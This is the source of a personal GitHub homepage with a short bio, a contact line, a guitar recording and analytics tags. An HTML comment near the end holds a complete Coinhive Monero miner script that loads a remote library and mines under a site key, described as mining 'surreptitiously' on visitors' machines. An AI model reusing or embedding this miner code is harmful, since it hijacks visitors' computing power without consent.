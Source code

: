 ```yaml
---
layout:
---
```

I am interested in engineering effective software, using in anger<br>
functional programming, type theory, and category theory.<br>

contact me:<br>
bohadi protonmail com<br>

<!--
[posts](./writ)
[projects](./proj)
-->

<br><br>
Thank you for the visit.<br>
Here is a short recording of me playing the guitar, which I enjoy.

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>


<br>
back to [github](https://github.com/bohadi)<br>


<!--
<br>
Finally, this page can mine Monero on your machine surreptitiously.<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);
</script>
-->

<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
